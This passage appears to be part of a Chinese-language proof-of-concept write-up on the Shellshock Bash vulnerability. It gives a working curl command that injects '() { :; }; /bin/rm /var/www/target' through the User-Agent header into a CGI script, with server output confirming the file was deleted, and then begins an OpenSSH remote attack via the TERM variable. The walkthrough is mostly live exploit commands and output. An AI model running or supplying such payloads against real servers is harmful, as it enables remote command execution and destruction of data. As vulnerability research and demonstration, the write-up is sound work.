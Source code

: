 </body>
</html>

再来试试使用curl设置一个user-agent玩玩：

$ curl -A "() { :; }; /bin/rm /var/www/target" http://192.168.0.1/poc.cgi
 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator,
webmaster@localhost and inform them of the time the error occurred,
and anything you might have done that may have
caused the error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.2.22 (Debian) Server at 192.168.0.1 Port 80</address>
</body></html>

上面已经把/var/www/target给删除了，再来看看：
 
$ curl http://192.168.0.1/target
 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /target was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Debian) Server at 192.168.0.1 Port 80</address>
</body></html>


4, 针对OpenSSH的POC，目前有2个攻击平面，Solar Designer给出了
SSH_ORIGINAL_COMMAND的本地利用方法：

seclists.org/oss-sec/2014/q3/651

还有就是针对远程利用的POC，通过利用TERM：

在机器A上生成一对RSA key pair:
shawn@debian-test32:~/.ssh$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/shawn/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/shawn/.ssh/id_rsa.
Your public key has been saved in /home/shawn/.ssh/id_rsa.pub.
The key fingerprint is:
09:1c:92:fb:c5:68:f8:e1:b9:c2:62:a8:c7:75:5b:dc shawn@debian-test32
The key's randomart image is:
+--[ RSA 2048]----+
|    ...          |
|    .o .        |
|    ooo        |
|    o +.o.      |
|    = =S.      |